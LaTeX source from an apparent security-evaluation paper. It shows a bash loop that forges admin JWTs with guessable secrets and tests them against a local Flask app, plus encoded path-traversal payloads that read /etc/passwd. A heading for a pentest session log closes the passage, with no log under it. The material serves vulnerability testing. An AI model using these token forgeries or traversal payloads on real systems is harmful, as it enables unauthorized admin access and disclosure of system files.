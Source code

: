 \documentclass[conference,a4paper]{IEEEtran}
\begin{document}
\subsection{JWT Secret Brute-Force}
\begin{lstlisting}
for SECRET in secret password key 123456 \
  default-secret-key changeme; do
  FORGED=$(python3 -c "import jwt; \
    print(jwt.encode({'user_id':999, \
    'role':'admin'}, '$SECRET', \
    algorithm='HS256'))")
  curl -H "Authorization: Bearer $FORGED" \
    http://localhost:5000/admin
done
# Secure:     401 for all (random secret)
# Vulnerable: 200 with secret='secret'
\end{lstlisting}

\subsection{Path Traversal (FileSearch) -- 22 Variants}
\begin{lstlisting}
# 1. Basic:   ../../etc/passwd
# 2. Encoded: %2e%2e%2fetc%2fpasswd
# 3. Double:  %252e%252e%252fetc
# 4. Null:    ../../etc/passwd%00.txt
# 5. Unicode: ..%c0%af..%c0%afetc/passwd

# Secure:     400 {"error":"Access denied"}
# Vulnerable: 200 root:x:0:0:root:...
\end{lstlisting}

\section{Manual Pentest Session Log}

Session log from haiku-4.5-standard / Login / Python-Flask, tested April 4, 2026:
\end{document}
